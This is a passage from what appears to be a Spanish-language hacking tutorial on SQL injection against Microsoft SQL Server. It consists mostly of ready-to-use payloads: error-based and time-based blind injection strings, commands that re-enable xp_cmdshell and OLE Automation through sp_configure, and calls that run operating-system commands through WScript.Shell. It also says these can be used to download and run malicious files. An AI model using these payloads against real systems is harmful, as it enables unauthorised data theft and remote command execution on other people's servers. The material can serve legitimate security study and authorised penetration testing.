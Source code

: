 
### **2. Enumeración de la Base de Datos**

Si la inyección no muestra resultados directamente, puedes usar **error-based** o **time-based**.

#### **a) Error-Based SQLi**

Forzamos un error para extraer información:

```
' UNION SELECT 1,2,3,@@version; --  
```
O provocamos un error intencional con `CONVERT()`:
```
' UNION SELECT 1,2,3,CONVERT(INT, DB_NAME()); --  
```
Si la aplicación devuelve el error, podemos extraer datos caracter por caracter.

#### **b) Time-Based Blind SQLi**

>Si no podemos ver la respuesta, usamos `WAITFOR DELAY`:
```
' IF (SUBSTRING(@@version,1,1)='1') WAITFOR DELAY '0:0:5'; --  
```
Si la consulta se retrasa 5 segundos, significa que la versión de MSSQL empieza con "1".

---
### **3. Explotación Avanzada en MSSQL**

#### **a) Ejecución de Comandos con `xp_cmdshell`**

>Si está habilitada:
```
' EXEC xp_cmdshell 'whoami'; --
```
>Si no está habilitada, la activamos si tenemos permisos:
```
' EXEC sp_configure 'show advanced options', 1; --
' RECONFIGURE; -- 
' EXEC sp_configure 'xp_cmdshell', 1; --
' RECONFIGURE; --  
```
Después de esto, podemos usar `xp_cmdshell` para descargar y ejecutar archivos maliciosos.

#### **b) Uso de `sp_OACreate` (OLE Automation)**

>Si `xp_cmdshell` está deshabilitada y no podemos activarla, intentamos **OLE Automation Procedures**:

```
' EXEC sp_configure 'Ole Automation Procedures', 1; --
' RECONFIGURE; -- 
' DECLARE @o INT; --
' EXEC sp_OACreate 'WScript.Shell', @o OUTPUT; --
' EXEC sp_OAMethod @o, 'Run', NULL, 'cmd.exe /c whoami > C:\inetpub\wwwroot\whoami.txt'; --
```
Esto ejecuta `whoami` y guarda la salida en `whoami.txt`.
